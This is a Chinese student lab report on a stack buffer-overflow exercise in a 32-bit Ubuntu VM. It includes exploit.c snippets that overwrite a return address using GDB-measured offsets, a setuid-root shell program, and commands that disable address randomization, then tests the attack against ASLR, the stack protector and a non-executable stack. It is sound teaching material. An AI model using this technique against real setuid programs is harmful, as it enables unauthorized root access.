 # 第三次实验报告
## PB17111614 王嵘晟
### Buffer overflow lab
### 实验环境： 32位Ubuntu 16.04
#### 1.实验步骤
##### Task 1
首先关闭系统的地址空间随机化：  
``` bash
su root
Password: (enter root password)
sysctl -w kernel.randomize_va_space=0
```
strcpy由于不检查边界，因此会覆盖函数的返回地址。函数返回时，会读取覆盖的返回地址中的指令执行，即执行shellcode。由于这里buffer的大小为517，所以当作大缓冲区的本地溢出攻击来处理，将shellcode直接写入exploit.c的buffer中，然后在stack中进行strcpy。  
为此需要先通过GDB调试来获取stack程序运行时的buffer的首地址与返回地址所在栈的距离。调试过程如下：  
![](确定A.png)  
确定A，即堆栈指针esp的值A=0xbfffee3c
![](确定B.png)  
确定B，即buffer的首地址B=0xbfffee18，经由计算得A-B=0x24。所以当buffer中内容的长度大于0x24时会出现缓冲区溢出的情况，这时返回地址将被改写。  
![](最终返回地址.png)  
调试所得的最终程序返回地址  
  
所以现在可以对于exploit.c文件进行改写：  
``` C
strcpy(buffer + (517 - strlen(shellcode) -1), shellcode);
int offset = 0x24;      // A-B=24, calculated by testing in GDB
unsigned long *position = (unsigned long *)(buffer + offset);
*(position) = (0xbfffee18 + offset + 4);
buffer[516] = 0;
```
将shellcode直接写进buffer中对应的位置，并把\*position附以相对应的值。  
![](GDB可以运行，当直接运行段错误.png)  
在GDB中运行程序，发现可以正常运行，但直接在shell中执行程序发现会出现段错误。分析原因发现这是ubuntu的缓冲区保护机制，需要在buffer最后加足够多的nop。对\*(position)做如下修改：  
``` C
*(position) = (0xbfffee18 + offset + 4 + 64);
```
这时发现问题得到解决，可以在shell里正常运行：  
![](Task1_done.png)  
这时得到的uid是用户的uid而不是root的uid，编写turn_userid_to_root.c并编译运行：
``` C
void main()
{
    setuid(0);
    system("/bin/sh");
}
```
![](Task1_转变成root.png)  
这时可以成功得到root的id。
#### Task 2
首先恢复内存地址的随机化：
``` bash
su root
Password: (enter root password)
/sbin/sysctl -w kernel.randomize_va_space=2
```
然后直接运行stack。由于地址空间随机化存在，所以这时需要的时间比较长，在两个小时后，终于跑出来了：  
![](Task2_done.png)  
#### Task 3
首先关闭系统的地址空间随机化：  
``` bash
su root
Password: (enter root password)
sysctl -w kernel.randomize_va_space=0
```
带有stack protector的情况下重新编译stack.c:  
``` bash
su root
Password (enter root password)
gcc -o stack -z execstack stack.c
chmod 4755 stack
exit
```
重新执行Task1，结果如下：  
![](Task3_done.png)  
因为gcc重新编译时带有stack protector，而根据生成的badfile会导致缓冲区溢出存在，所以这时系统会检测到stack smashing而直接终止程序
#### Task 4
编译stack.c时选择noexectstack:  
``` bash
su root
Password (enter root password)
gcc -o stack -fno-stack-protector -z noexecstack stack.c
chmod 4755 stack
exit
```
再次重新执行Task1，结果如下：  
![](Task4.png)  
无法进入shell，原因是编译时选择了non-executable stack，所以内核和动态链接会认为这个程序运行时堆栈空间是不可执行的，所以会出现segmentation fault。
### 2.实验小结
对于实验文档中问题的回答均已写到了实验步骤的文字记录中。  
本次缓冲区溢出攻击实验，主要难点在于对于可以产生缓冲区溢出的代码进行调试以求得stack程序运行时的buffer的首地址与返回地址所在栈的距离以及对于大缓冲区的本地溢出攻击的攻击串的编写。不过这也是令我收获最多的一个地方。此外，对于ubuntu gcc编译的特点有了一定的了解，例如gcc编译时默认no executable stack，默认有stack protector。而ubuntu系统的内存地址保护机制是对地址空间进行随机化，如果不关闭地址空间随机化想要直接攻击是相当困难的，task2我运行了两个小时才进入shell……总之经过了本次实验对于内存地址的攻防算是有了一个基础的了解。